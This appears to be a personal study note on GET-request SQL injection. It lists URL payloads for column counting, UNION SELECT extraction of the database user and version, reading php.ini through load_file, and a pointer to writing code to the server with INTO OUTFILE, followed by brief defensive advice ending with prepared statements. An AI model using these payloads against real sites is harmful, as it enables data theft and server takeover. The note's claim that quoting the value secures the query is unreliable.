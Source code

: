 ## GET SQL Injection

**GET** request is when you're asking the server to provide a page or resource for the user. 

- Main difference between POST and GET? _Inject using the url, not a login form._

Determine columns:

```php
www.example.com/post?id=1 order by 4
```

Union statement:

```php
www.example.com/post?id=1 union select NULL,NULL,NULL,'aaa'
```

- Determine what data is stored in each column.

Invalidate first query:

```php
www.example.com/post?id=1 and 0 union select 1,2,3,4
```

- Removes the first query making the output easier to read.

Obtain user:

```php
www.example.com/post?id=1 and 0 union select 1,2,user(),4
```

 Version:
```php
www.example.com/post?id=1 and 0 union select 1,2,version(),4
```

- Databases have different syntax so be sure to try others if one fails. 

Web-Server `php.ini` file:

```php
www.example.com/post?id=1 and 0 union select 1,2,load_file("C/xampp/php/php.ini"),4
```

- This file shows how the PHP works on the entire web-server, in other words it shows how the server is configured.

- You can save a file to the server with `select into outfile "malicios code"`, https://mariadb.com/kb/en/select-into-outfile/. The `[LOAD DATA INFILE](https://mariadb.com/kb/en/load-data-infile/)` statement complements `SELECT INTO OUTFILE`

Secure Server:

1. When you're expecting a user input, always try to declare it as the thing that you want. For example, if you're asking for an integer, then use `int num`. That would stop the attack above because you would only be able to query a number.

2. You could add the query inside quotes like we did with the email: `'$id'`

3. Add slashes functions, but this is not very good.

4. Finally, use **prepared statements** 

---

**Completed:** _12:58 2024-09-09_




